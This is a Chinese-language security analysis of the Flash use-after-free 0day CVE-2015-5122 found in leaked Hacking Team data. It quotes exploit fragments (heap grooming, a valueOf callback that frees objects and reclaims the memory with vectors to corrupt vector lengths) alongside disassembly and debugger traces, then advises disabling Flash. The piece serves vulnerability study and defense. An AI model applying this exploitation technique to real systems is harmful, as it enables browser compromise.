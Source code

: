 # Hacking Team攻击代码分析Part 4: Flash 0day漏洞 CVE-2015-5122

0x00 前言
=======

* * *

前几天我们分析了Hacking Team泄露数据中的3个exploit，包括一个flash 0day，一个flash nday和一个windows字体提权0day。昨天Adobe在发布了最新的flash版本（18.0.0.203），修补了其中的flash 0day（CVE-2015-5119）。然而今天twitter上面又有研究者爆猛料，称Hacking Team泄露数据中还有一个未修补的flash 0day，在最新的flash版本中仍然可以触发。Adobe随后也发布了对应的安全公告APSA15-04，漏洞的CVE编号为：CVE-2015-5122。影响Windows、MacOSX和Linux平台上的IE、Chrome浏览器等主流浏览器。

![enter image description here](http://drops.javaweb.org/uploads/images/4eb38ef9f1a40a74972db5581b0dc98abda4087d.jpg)

我们经过分析，确认这确实又是一个新的flash 0day，漏洞成因是DisplayObject在设置opaqueBackground属性时，没有正确处理可能发生的回调（又是valueOf，是在下输了），而产生的Use After Free漏洞。本文将分析这个漏洞的成因和利用方式。

0x01 漏洞原理分析
===========

* * *

出问题的函数是DisplayObject对象的opaqueBackground属性设置函数：

我们来看一下HackingTeam泄露的exploit代码，关键部分如下：

```
1   for(i=_arLen1; i < _arLen2; i++)
2       _ar[i] = _tb.createTextLine(); // fill 1016-byte holes (0x38c is a size of internal TextLine object)
3       for(i=_arLen1; i < _arLen2; i++)
4           _ar[i].opaqueBackground = 1; // alloc 1016 bytes

```

在这个过程中会每个TextLine Object内部会分配0x390大小的对象，对象分配的代码在：

```
1   .text:1025DC71                 push    1
2   .text:1025DC73                 push    eax
3   .text:1025DC74                 push    390h
4   .text:1025DC79                 call    operator_new2

```

调试过程中分配的0x390内部对象地址：

```
Allocate 0x390 object:04cbc810
Allocate 0x390 object:0513c810
Allocate 0x390 object:0513cc08
Allocate 0x390 object:05d94020
Allocate 0x390 object:05d94418
Allocate 0x390 object:05d94810
Allocate 0x390 object:05d94c08
Allocate 0x390 object:05d95020
Allocate 0x390 object:05d95418
Allocate 0x390 object:05d95810
Allocate 0x390 object:05d95c08
Allocate 0x390 object:05d96020
Allocate 0x390 object:05d96418
Allocate 0x390 object:05d96810
Allocate 0x390 object:05d96c08
Allocate 0x390 object:05d97020
Allocate 0x390 object:05d97418

```

2 设置opaqueBackground，触发valueOf函数调用：

```
1   MyClass.prototype.valueOf = valueOf2;
2                    
3   // here we go, call the vulnerable setter
4   _cnt = _arLen2-6;
5   _ar[_cnt].opaqueBackground = _mc;

```

和之前两个漏洞一样，exploit定义了自己的类，设置valueOf函数，然后在opaqueBackground的设置函数中，我们可以看到有一个将传入的参数转换为integer的过程，这个调用触发了MyClass的valueOf函数：

```
.text:1025DD4C loc_1025DD4C: CODE XREF: set_opaqueBackground+2Fj
.text:1025DD4C                 push    ebx
.text:1025DD4D                 push    [esp+10h+param]
.text:1025DD51                 call    ?integer@AvmCore@avmplus@@SAHH@Z ; avmplus::AvmCore::integer(int)

```

3 在valueOf函数中，释放TextLine Object，并使用vector占位

```
01  static function valueOf2()
02  {
03      try
04      {  
05          if (++_cnt < _arLen2) {
06              // recursive call for next TextLine
07              _ar[_cnt].opaqueBackground = _mc;
08          }else{
09              Log("MyClass.valueOf2()");
10               
11              // free internal objects
12              for(var i:int=1; i <= 5; i++)
13                  _tb.recreateTextLine(_ar[_arLen2-i]);
14               
15              // reuse freed memory
16              for(i=_arLen2; i < _arLen; i++)
17                  _ar[i].length = _vLen;
18          }
19      }
20      catch (e:Error)
21      {
22          Log("valueOf2 " + e.toString());
23      }
24      return _vLen+8;
25  }

```

我们可以看到valueOf函数通过调用recreateTextLine释放了原来的TextLine对象（因此0x390大小的内部对象也将被释放）。然后使用0x190大小的vector对象试图占用已经释放的0x390大小对象的内存。这里之所以选用0x190大小的vector，是因为之后代码会对已经释放的0x390内部对象进行一个写操作，这个写操作的偏移是0x320，正好是0x190的两倍，这样写的时候可以直接写到vector的长度字段。这里用了一个技巧：用不同大小的对象去占位时，必须以页为单位释放原对象的内存，才有可能成功（也就是说这里必须连续释放多个0x390大小的内部对象，造成至少一个page（0x1000）内存被释放，然后才能用0x190的vector去占它）。

4 从valueOf返回，已经释放的0x390内部对象被写入

```
eax=00000000 ebx=0000006a ecx=05d92708 edx=00000006 esi=05d97020 edi=0515dd78
eip=631bdd7e esp=0300bfec ebp=05d92708 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00200246
Flash32_18_0_0_203!DllUnregisterServer+0x7489c:
631bdd7e 889e20030000 mov byte ptr [esi+320h],bl ds:0023:05d97340=62
0:006> dd esi
05d97020 00000062
04cb3000 00000037 00000000

```

Esi指向已经被释放的0x390大小对象（0x5d97020），可以参考前面分配时记录的对象地址，很容易看出这是其中一个0x390对象。写入的是esi+0x320处，可以看到已经被vector占用，并且指向某个vector的长度字段（0x62）。 写操作完成后，vector长度被篡改为0x6a:

```
0:006> p
0:006> dd esi+320 L4
05d97340  0000006a 04cb3000 00000039 00000000

```

之后exploit再利用这个稍微变长了一点点的vector，修改紧邻的下一个vector的长度为0x40000000：

```
0:006> dd 5D974D0L4
05d974d0  40000000 04fc3000 0000003a 00000000

```

0x02 漏洞防范
=========

* * *

由于该漏洞利用非常稳定，而Adobe暂时没有发布该漏洞的补丁，我们建议补丁发布之前，可以暂时先禁用flash插件。